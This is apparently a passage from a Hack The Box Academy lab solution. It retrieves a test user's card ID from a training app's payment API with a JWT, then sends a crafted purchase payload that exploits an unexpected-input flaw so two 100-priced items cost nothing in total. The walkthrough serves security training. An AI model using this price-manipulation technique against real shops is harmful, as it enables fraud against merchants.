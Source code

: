 Having attained a JWT token, students then need to get the card details of the current user (most importantly, its `id`) by sending a GET request to the `/api/payment/cards` endpoint (mapped to `src/src/controllers/payment-controller.js`, lines 8-43):

Code: shell

```shell
http GET http://STMIP:STMPO/api/payment/cards --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-lmjzvcebvu]─[~]
└──╼ [★]$ http GET http://94.237.62.195:45334/api/payment/cards --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTkxNTU5NiwiZXhwIjoxNjk2MDAxOTk2fQ.n-FtLMJ7wlerM7J02M05WmR44Pd9_t_Y-7dhOzVLJeU" | jq

{
  "cards": [
    {
      "id": "651599407998f5c5ff061491",
      "userId": "649f2893cba8d0d6e8412182",
      "name": "HTB Student",
      "endsWith": "3456",
      "expiryMonth": "12",
      "expiryYear": "2030",
      "cvc": "123",
      "balance": 5
    }
  ]
}
```

With the `id` `651599407998f5c5ff061491` of the card attained, students need to exploit the unexpected input vulnerability and perform two purchases, one for 1000 cubes costing 100 and another for a subscription with a non-existent `name` also costing 100 (therefore, the total becomes 0):

Code: json

```json
{
  "cardId": "651599407998f5c5ff061491",
  "items": [
    {
      "name": "1000",
      "category": "cubes",
      "price": 100,
      "amount": 1
    },
    {
      "name": "doesNotExist",
      "category": "subscription",
      "price": 100,
      "amount": 1
    }
  ]
}
```

